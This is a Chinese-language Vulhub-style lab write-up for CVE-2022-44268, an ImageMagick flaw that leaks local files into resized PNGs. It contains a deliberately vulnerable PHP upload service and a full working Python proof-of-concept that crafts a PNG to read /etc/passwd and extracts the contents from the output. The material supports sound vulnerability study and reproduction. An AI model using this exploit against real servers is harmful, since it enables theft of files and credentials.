 # ImageMagick任意文件读取漏洞 CVE-2022-44268

## 漏洞描述

ImageMagick是一款使用量很广的图片处理程序，很多厂商都调用了这个程序进行图片处理，包括图片的伸缩、切割、水印、格式转换等等。

在ImageMagick 7.1.0-51版本及以前，其处理PNG文件的代码中存在一处功能，会导致转换图片时读取到当前操作系统上的任意文件，并将文件内容输出在图片内容中。

参考链接：

- https://www.metabaseq.com/imagemagick-zero-days/
- https://github.com/ImageMagick/Website/blob/main/ChangeLog.md#710-52---2022-11-06

## 环境搭建

Vulhub执行如下命令启动一个Web服务器，这个服务器的功能是将用户上传的任意图片缩小成50x50的PNG图片。

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8080`可以看到图片上传框：

![image-20230206091512388](images/image-20230206091512388.png)

[后端服务](#后端服务代码)的代码十分简单：

```
$newname = uniqid() . '.png';
shell_exec("convert -resize 50x50 {$_FILES['file_upload']['tmp_name']} ./{$newname}");
```

## 漏洞复现

利用这个漏洞，需要先准备一个恶意PNG文件，文件内容中包含我们准备读取的文件路径：

可以使用[poc.py](#poc.py)来生成这个图片：

```
python poc.py generate -i input.png -o poc.png -r /etc/passwd
```

> 执行poc.py前请安装[PyPNG](https://pypng.readthedocs.io/en/latest/)：`pip install pypng`

如果你使用[010editor](https://en.wikipedia.org/wiki/010_Editor)查看这个图片，可以看到其中包含一个类型是`tEXt`的chunk，其中包含我们的Payload `profile=/etc/passwd`：

![image-20230206092153724](images/image-20230206092153724-16788460993989.png)

接着，我们将这个图片上传到目标服务中：

![image-20230206092252429](images/image-20230206092252429-167884610230611.png)

下载服务处理后生成的图片，使用[poc.py](#poc.py)提取出其中所有内容：

```
python poc.py parse -i output.png
```

![image-20230206092642268](images/image-20230206092642268-167884610412013.png)

可以看到，已经提取出`/etc/passwd`文件的内容，这部分内容是由ImageMagick在处理旧图片时读取并写入到新图片中。

## 附录

### 后端服务代码

```
<?php
$newname = '';
if (!empty($_FILES)) {
    $ext = pathinfo($_FILES['file_upload']['name'], PATHINFO_EXTENSION);
    if (!in_array($ext, ['gif', 'png', 'jpg', 'jpeg'])) {
        die('Unsupported filetype uploaded.');
    }

    $newname = uniqid() . '.png';
    shell_exec("convert -resize 50x50 {$_FILES['file_upload']['tmp_name']} ./{$newname}");
}
?>
<form method="post" enctype="multipart/form-data">
    File: <input type="file" name="file_upload">
    <input type="submit">
</form>
<br>
<?php
if ($newname):
?>
<h1>Your image:</h1>
<p>
    <a href="./<?=$newname?>" target="_blank">
        <img src="./<?=$newname?>" width="50" height="50">
    </a>
</p>
<?php
endif;
```

### poc.py

```
#!/usr/bin/env python3
import sys
import png
import zlib
import argparse
import binascii
import logging

logging.basicConfig(stream=sys.stderr, level=logging.INFO, format='%(asctime)s - %(levelname)s - %(message)s')
d = zlib.decompressobj()
e = zlib.compressobj()
IHDR = b'\x00\x00\x00\n\x00\x00\x00\n\x08\x02\x00\x00\x00'
IDAT = b'x\x9c\xbd\xcc\xa1\x11\xc0 \x0cF\xe1\xb4\x03D\x91\x8b`\xffm\x98\x010\x89\x01\xc5\x00\xfc\xb8\n\x8eV\xf6\xd9' \
       b'\xef\xee])%z\xef\xfe\xb0\x9f\xb8\xf7^J!\xa2Zkkm\xe7\x10\x02\x80\x9c\xf3\x9cSD\x0esU\x1dc\xa8\xeaa\x0e\xc0' \
       b'\xccb\x8cf\x06`gwgf\x11afw\x7fx\x01^K+F'


def parse_data(data: bytes) -> str:
    _, data = data.strip().split(b'\n', 1)
    return binascii.unhexlify(data.replace(b'\n', b'')).decode()


def read(filename: str):
    if not filename:
        logging.error('you must specify a input filename')
        return

    res = ''
    p = png.Reader(filename=filename)
    for k, v in p.chunks():
        logging.info("chunk %s found, value = %r", k.decode(), v)
        if k == b'zTXt':
            name, data = v.split(b'\x00', 1)
            res = parse_data(d.decompress(data[1:]))

    if res:
        sys.stdout.write(res)
        sys.stdout.flush()


def write(from_filename, to_filename, read_filename):
    if not to_filename:
        logging.error('you must specify a output filename')
        return

    with open(to_filename, 'wb') as f:
        f.write(png.signature)
        if from_filename:
            p = png.Reader(filename=from_filename)
            for k, v in p.chunks():
                if k != b'IEND':
                    png.write_chunk(f, k, v)
        else:
            png.write_chunk(f, b'IHDR', IHDR)
            png.write_chunk(f, b'IDAT', IDAT)

        png.write_chunk(f, b"tEXt", b"profile\x00" + read_filename.encode())
        png.write_chunk(f, b'IEND', b'')


def main():
    parser = argparse.ArgumentParser(description='POC for CVE-2022-44268')
    parser.add_argument('action', type=str, choices=('generate', 'parse'))
    parser.add_argument('-i', '--input', type=str, help='input filename')
    parser.add_argument('-o', '--output', type=str, help='output filename')
    parser.add_argument('-r', '--read', type=str, help='target file to read', default='/etc/passwd')
    args = parser.parse_args()
    if args.action == 'generate':
        write(args.input, args.output, args.read)
    elif args.action == 'parse':
        read(args.input)
    else:
        logging.error("bad action")


if __name__ == '__main__':
    main()
```

